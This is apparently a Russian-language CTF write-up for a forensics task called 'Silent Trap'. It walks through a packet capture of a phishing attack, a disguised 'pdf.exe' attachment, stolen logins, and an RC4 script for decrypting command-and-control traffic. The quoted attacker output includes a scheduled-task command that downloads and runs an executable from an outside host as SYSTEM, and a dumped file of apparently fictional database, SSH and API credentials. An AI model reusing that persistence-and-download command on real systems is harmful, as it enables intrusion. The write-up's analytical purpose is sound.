

# Silent Trap

\
В этой таске нужно было найти 6 разных флагов, но я благополучно забыл заскриншотить задания...

Открываем файлик, гуляем по стримам\
В первом же стриме находим имейлы\
\
1 флаг - subject у первого открытого жертвой имейла - subject у 71 письма "Game Crash on Level 5"\
2 флаг - дататайм когда был отправлен имейл злоумышленника\
В 8 стриме видим как жертва открывает новый имейл, в 12 скачивает подозрительный файл "Eldoria_Balance_Issue_Report.pdf.exe"\
Это имейл 72, смотрим его дату, получаем флаг - 2025-02-24_15:46\
3 флаг - md5 хэш подозрительного файла\
Сохраняем файл, пароль к архиву находим в том же письме, получаем хэш вредоносного файла - c0b37994963cc0aadd6e78a256c51547 *Eldoria_Balance_Issue_Report.pdf.exe\
4 флаг - под какой учеткой залогинились злоумышленники\
В 16 стриме находим креды\
\
флаг proplayer@email.com:completed\
5 флаг - какую таску запустил злоумышленник\
В 35 стриме находим зашифрованную команду\
\
Для этого нам нужно ревнуть вредоносное по и получить вот такой код для расшифровки:
```python
import base64


def rc4(key, data):
    S = list(range(256))
    j = 0
    out = bytearray()
    for i in range(256):
        j = (j + S[i] + key[i % len(key)]) % 256
        S[i], S[j] = S[j], S[i]
    i = j = 0
    for byte in data:
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        out.append(byte ^ S[(S[i] + S[j]) % 256])
    return bytes(out)


key = bytes([
    168, 115, 174, 213, 168, 222, 72, 36, 91, 209, 242, 128, 69, 99, 195, 164,
    238, 182, 67, 92, 7, 121, 164, 86, 121, 10, 93, 4, 140, 111, 248, 44,
    30, 94, 48, 54, 45, 100, 184, 54, 28, 82, 201, 188, 203, 150, 123, 163,
    229, 138, 177, 51, 164, 232, 86, 154, 179, 143, 144, 22, 134, 12, 40, 243,
    55, 2, 73, 103, 99, 243, 236, 119, 9, 120, 247, 25, 132, 137, 67, 66,
    111, 240, 108, 86, 85, 63, 44, 49, 241, 6, 3, 170, 131, 150, 53, 49,
    126, 72, 60, 36, 144, 248, 55, 10, 241, 208, 163, 217, 49, 154, 206, 227,
    25, 99, 18, 144, 134, 169, 237, 100, 117, 22, 11, 150, 157, 230, 173, 38,
    72, 99, 129, 30, 220, 112, 226, 56, 16, 114, 133, 22, 96, 1, 90, 72,
    162, 38, 143, 186, 35, 142, 128, 234, 196, 239, 134, 178, 205, 229, 121, 225,
    246, 232, 205, 236, 254, 152, 145, 98, 126, 29, 217, 74, 177, 142, 19, 190,
    182, 151, 233, 157, 76, 74, 104, 155, 79, 115, 5, 18, 204, 65, 254, 204,
    118, 71, 92, 33, 58, 112, 206, 151, 103, 179, 24, 164, 219, 98, 81, 6,
    241, 100, 228, 190, 96, 140, 128, 1, 161, 246, 236, 25, 62, 100, 87, 145,
    185, 45, 61, 143, 52, 8, 227, 32, 233, 37, 183, 101, 89, 24, 125, 203,
    227, 9, 146, 156, 208, 206, 194, 134, 194, 23, 233, 100, 38, 158, 58, 159
])
```
Расшифровываем команду и получаем 
```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>schtasks /create /tn Synchronization /tr "powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://www.mediafire.com/view/wlq9mlfrl0nlcuk/rakalam.exe/file -OutFile C:\Temp\rakalam.exe" /sc minute /mo 1 /ru SYSTEM

C:\Users\dev-support\Desktop>
```
Флаг - Synchronization
6 флаг - какой апи ключ был украден\
в 97 стриме находим зашифрованную команду, расшифровываем и получаем:
```
Microsoft Windows [Version 10.0.19045.5487]
(c) Microsoft Corporation. All rights reserved.

C:\Users\dev-support\Desktop>more C:\backups\credentials.txt
[Database Server]
host=db.internal.korptech.net
username=dbadmin
password=rY?ZY_65P4V0

[Game API]
host=api.korptech.net
api_key=sk-3498fwe09r8fw3f98fw9832fw

[SSH Access]
host=dev-build.korptech.net
username=devops
password=BuildServer@92|7Gy1lz'Xb
port=2022

C:\Users\dev-support\Desktop>
```
Флаг - sk-3498fwe09r8fw3f98fw9832fw